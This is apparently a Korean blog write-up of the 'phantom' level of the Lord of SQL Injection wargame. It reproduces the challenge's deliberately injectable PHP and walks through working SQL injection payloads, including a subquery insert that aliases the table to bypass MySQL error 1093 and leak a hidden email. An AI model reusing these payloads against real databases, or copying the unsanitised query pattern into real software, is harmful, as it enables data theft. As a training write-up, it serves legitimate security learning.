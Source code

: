 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - phantom 문제풀이"
excerpt_separator: <!--more-->
tags:
  - Write-up
  - Lord of SQL Injection
---
```


이번엔 유령이다 유령  

`phantom` 이라는 문제인데 Write-up은 `The Phantom Of The Opera` 들으면서 써야겠다.  

<!--more-->

코드는 다음과 같다.  

|     ip    |      email     |
|:---------:|:--------------:|
| 127.0.0.1 | ************** |

```php
<?php
  include "./config.php";
  login_chk();
  dbconnect("phantom");

  if($_GET['joinmail']){
    $query = "insert into prob_phantom values(0,'{$_SERVER[REMOTE_ADDR]}','{$_GET[joinmail]}')";
    mysql_query($query);
    echo "<hr>query : <strong>{$query}</strong><hr>";
  }

  $rows = mysql_query("select no,ip,email from prob_phantom where no=1 or ip='{$_SERVER[REMOTE_ADDR]}'");
  echo "<table border=1><tr><th>ip</th><th>email</th></tr>";
    while(($result = mysql_fetch_array($rows))){
    if($result['no'] == 1) $result['email'] = "**************";
    echo "<tr><td>{$result[ip]}</td><td>{$result[email]}</td></tr>";
  }
  echo "</table>";

  $_GET[email] = addslashes($_GET[email]);
  $query = "select email from prob_phantom where no=1 and email='{$_GET[email]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['email']) && ($result['email'] === $_GET['email'])){ mysql_query("delete from prob_phantom where no != 1"); mysql_query("alter table prob_phantom AUTO_INCREMENT=2"); solve("phantom"); }
  highlight_file(__FILE__);
?>
```

보면 `joinmail`이라는 이름으로 가입 할(?) 이메일 주소를 입력 받는다.  

그리고 현재 데이터베이스에 저장되어 있는 값 중, `no=1`인 값과 내 IP 주소와 같은 주소로 저장되어 있는 행을 `select` 해 출력 해 준다.  

이 때, `no=1`인 행의 `email` 주소는 `**************`로 바뀌어 출력된다.  

문제를 풀기 위해서는 `no=1`인 행의 `email`의 주소를 정확하게 알아내면 된다.  

`joinmail`에서 테스트를 해 보았더니, 넘어온 값에 대해 제대로 검증을 하지 않아 한번에 여러 행을 추가할 수 있다는 사실을 알아냈다.  

```
?joinmail=test1'), (2, 'MY IP', 'test2
```

이렇게 입력하면 완성되는 쿼리는 아래와 같다.  

```
insert into prob_phantom values(0,'MY IP','test1'), (2, 'MY IP', 'test2')
```

그 결과 한번에 `test1`과 `test2`가 저장된 것을 확인할 수 있다.  

그래서 처음에는 `no=1`인 행을 덮어 쓰면 되지 않을까 생각했다.  

근데 `no` 자리에 `1`을 넣어서 시도 해 보면 아예 쿼리가 먹히지 않았다.  

아무래도 뭔가 설정 상으로 막아둔 것 같았다.  

그래서 그 다음 방법으로는 `insert`문에 `select`로 `subquery`를 넣어 `no=1`인 행의 `email`을 뽑아 새로운 행으로 저장하는 방법을 생각했다.  

처음에 문법을 제대로 몰라서 좀 삽질을 했다.  

내 서버에서 테스트를 좀 했었는데, `ERROR 1093 (HY000): You can't specify target table 'user' for update in FROM clause` 이런 오류가 계속 났다.  

알고보니 현재 테이블에서 값을 뽑아 현재 테이블의 값으로 저장하는 것은 안된다고 한다.  

예를 들어, 아래와 같은 `insert`문을 작성했다고 가정하자.  

```
insert into user value('id1', 'pw1'), ('id2', (select pw from user where id='admin'));
```

이 경우, `user`라는 테이블에 `user` 테이블에서 값을 추출 해 삽입하기 때문에 위와 같은 `1093`에러가 발생한다.  

이 때 간단한 해결 방법이 있는데, 바로 `select` 문에서 테이블 명에 별칭을 주는 것이다.  

```
insert into user value('id1', 'pw1'), ('id2', (select pw from user tmp where id='admin'));
```

위와 같이 `select pw from user`를 `select pw from user tmp`로 바꾸면 에러가 발생하지 않는다.  

이를 바탕으로 쿼리문을 아래와 같이 구성했다.  

```
?joinmail=test'), (3, '210.126.104.194', (select email from prob_phantom tmp where no=1))#
```

그 결과 평문으로 된 `no=1`인 행의 `email` 주소를 얻을 수 있었다.  

|     ip    |            email           |
|:---------:|:--------------------------:|
| 127.0.0.1 | **************             |
| MY IP     | admin_secure_email@debu.kr |
| MY IP     |            test            |

이제 이메일을 구했으니, `?email=admin_secure_email@debu.kr`을 쿼리스트링으로 넘기면 문제를 풀 수 있다.  

```php
PHANTOM Clear!
<?php
  include "./config.php";
  login_chk();
  dbconnect("phantom");

  if($_GET['joinmail']){
    $query = "insert into prob_phantom values(0,'{$_SERVER[REMOTE_ADDR]}','{$_GET[joinmail]}')";
    mysql_query($query);
    echo "<hr>query : <strong>{$query}</strong><hr>";
  }

  $rows = mysql_query("select no,ip,email from prob_phantom where no=1 or ip='{$_SERVER[REMOTE_ADDR]}'");
  echo "<table border=1><tr><th>ip</th><th>email</th></tr>";
    while(($result = mysql_fetch_array($rows))){
    if($result['no'] == 1) $result['email'] = "**************";
    echo "<tr><td>{$result[ip]}</td><td>{$result[email]}</td></tr>";
  }
  echo "</table>";

  $_GET[email] = addslashes($_GET[email]);
  $query = "select email from prob_phantom where no=1 and email='{$_GET[email]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['email']) && ($result['email'] === $_GET['email'])){ mysql_query("delete from prob_phantom where no != 1"); mysql_query("alter table prob_phantom AUTO_INCREMENT=2"); solve("phantom"); }
  highlight_file(__FILE__);
?>
```

`PHANTOM Clear!!`